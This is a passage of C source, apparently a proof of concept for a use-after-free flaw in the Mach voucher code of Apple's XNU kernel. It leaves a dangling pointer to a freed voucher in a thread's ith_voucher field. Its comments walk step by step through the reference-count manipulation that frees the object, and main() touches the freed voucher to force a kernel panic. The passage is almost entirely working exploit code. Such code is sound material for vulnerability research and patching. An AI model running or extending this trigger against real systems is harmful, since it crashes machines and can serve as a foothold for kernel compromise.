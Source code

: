 ```c
 * voucher_release
 *
 * Description:
 * 	Release a reference on the voucher represented by the voucher port.
 */
static void
voucher_release(mach_port_t voucher) {
	voucher_tweak_references(voucher, MACH_PORT_NULL);
}

/*
 * thread_stash_freed_voucher
 *
 * Description:
 * 	Stash a pointer to a freed voucher object in the current thread's ith_voucher field. This
 * 	voucher can be accessed later with thread_get_mach_voucher().
 */
static void
thread_stash_freed_voucher(mach_port_t thread_self) {
	// Create a unique voucher. This voucher will have 1 voucher reference, 2 port references,
	// and 1 port send right.
	mach_port_t voucher = create_voucher(0);
	// Stash a copy of the voucher in our thread. This will bump the voucher references to 2.
	kern_return_t kr = thread_set_mach_voucher(thread_self, voucher);
	assert(kr == KERN_SUCCESS);
	// Now drop the voucher reference count to 1. The port reference count is still 2.
	voucher_release(voucher);
	// Next deallocate our send right to the voucher port. This drops the port send right
	// count to 0 (although the port reference count is still 1), causing a no-senders
	// notification to be triggered. The no-senders notification calls ipc_voucher_notify(),
	// which releases the final voucher reference. In the process of freeing the voucher,
	// ipc_port_dealloc_kernel() is called on the port, so the port is also freed.
	kr = mach_port_deallocate(mach_task_self(), voucher);
	assert(kr == KERN_SUCCESS);
	// This leaves a dangling pointer to the voucher in thread_self->ith_voucher. We can access
	// the freed voucher and voucher port with a call to thread_get_mach_voucher().
}

int
main(int argc, const char *argv[]) {
	host = mach_host_self();
	mach_port_t thread = mach_thread_self();
	// Stash a pointer to a freed ipc_voucher_t in this thread's ith_voucher field.
	thread_stash_freed_voucher(thread);
	// The following call should trigger a panic.
	mach_port_t voucher;
	thread_get_mach_voucher(thread, 0, &voucher);
	return 0;
}
```
